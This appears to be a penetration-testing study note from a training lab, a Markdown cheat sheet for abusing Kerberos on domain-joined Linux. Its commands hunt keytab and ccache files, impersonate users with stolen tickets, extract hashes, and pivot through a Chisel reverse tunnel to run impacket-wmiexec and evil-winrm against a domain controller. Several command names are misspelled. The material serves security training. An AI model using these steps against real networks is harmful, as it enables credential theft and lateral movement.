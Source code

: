 # Kerberos on Linux
- Linux stores Kerberos tickets as ccache files in /tmp. 
- By default, the location of the Kerberos ticket is stored in the environmnet variable KRB5CCNAME.
- Keytab file: contains pairs of Kerberos principals and encyrpted keys.

# Scenario
- LINUX01 is connected to Domain Controller, can only be reached by MS01
- Two ways to connect to LINUX01:
    - RDP to MS01, then from MS01 SSH to LINUX01
    - Use portforwarding
    ```shell
    ssh $USER@$DOMAIN@$IP -p 2222
    
    # By connecting to port TCP/2222 on MS01, we will gain access to port TCP/22 on LINUX01
    ```
    
# Identify Linux and Active Directory Integration
### Check if Linux is Domain joined
  - realm
    ```shell
      realm list
    ```
  - PS
    ```shell
      ps -ef | grep -i "windbind\|sssd"
    ```
# Finding Kerberos Tickets in Linux
### Finding Keytab files
- Using Find
```shell
  find / -name *keytab* -ls 2>/dev/null
```
### Identify Keytab Files in Cronjobs
```shell
  crontab -l
```
- Look for **kinit**, which allows interation with Kerberos, and its function si to request the users's TGT and store this ticket in the cache. 
### Finding ccache Files
- Review Environemnet Variables for ccache files
```shell
  env | grep -i krb5
```
### Search for ccache files in /tmp
```shell
  ls -la /tmp
```
# Abusing KeyTab files
### Listing Keytab file information
```shell
  klsit -k -t
```
1. Impersonating a user wiht a keytab
```shell
  klist
  kinit $USER@DOMAIN -k -t /opt/specialfiles/$USER.keytab
  klist
```
- Connect to SMB as the user
```shell
  smblcient //$DOMAIN/$USER -k -c ls
```
- NOTE: to keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

2. Keytab Extract
- Use ![KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract valuable information from 502-type .keytab files.
```shell
python3 /opt/keytabextract.py /opt/specialfiles/$USER.keytab
```
- Log in as the user
```shell
  su - $USER@DOMAIN
  klist
```
- Obtain more hashes: we can continue investigate the keytab file found in the cronjob, repeat the process and gain more hashes.

# Abuse Keytab ccache
- Escalte privilege (when possible) to read the ccache files
```shell
  ls -la /tmp
```
- Check the group of the users:
```shell
id $USER@$DOMAIN
```
- To use ccache file, we need to assign the file to the KRB5CCNAME variable
```shell
  cp /tmp/$CCACHEFILE .
  export KRB5CCNAME=/root/$CCACHEFILE
  klist
```

-------------------------------
# Using Linux Attack Tools with Kerberos
-------------------------------
- When using tools from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. When attacking from a machine that is not a member of domain, we need to use ![Chisel](https://github.com/jpillora/chisel) ![proxychains](https://github.com/haad/proxychains) and edit the host file.
```shell
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
- Configure Proxychains file to use socks5 and port 1080
```shell
    cat /etc/proxychains.conf
    socks5 127.0.0.1 1080
```
- Download Chisel to PWNBOX
```shell
    wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    gzip -d chisel_1.7.7_linux_amd64.gz
    mv chisel_* chisel && chmod +x ./chisel
    sudo ./chisel server --reverse 
```
- RDP to MS01 machine
- Execute chisel from MS01 machine
```shell
    chisel.exe client $PWNBOX_IP:8080 R:socks
```
- Transfer ccache file from LINUX-1 and create environment varialbe KRB5CCNAME with the value corresponding to the path of the ccachfile
```shell
    export KRB5CCNAME=/home/htb-student/$CCACHE_FILE
```

## Impacket
- Use Impacket with proxychains and Kerberos Authentication
```shell
    # PWNBOX
    proxychains impacket-wmiexec ms01 -k
    
    # if prompted for a password, use -no-pass option
 ```
 ## Evil-winrm
 - Must install the package
 ```shell
    # PWNBOX
    sudo apt-get install krb5-user -y
 ```
 - Configure the Keberos file for the Domain
 ```shell
     cat /etc/krb5.conf
     default_realm = INLANEFREIGHT.HTB
     
     [realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
 ```
 - Using Evil-WinRM with Kerberos
 ```shell
    proxychains evil-winrm -i dc01 -r inlanefreight.htb
 ```


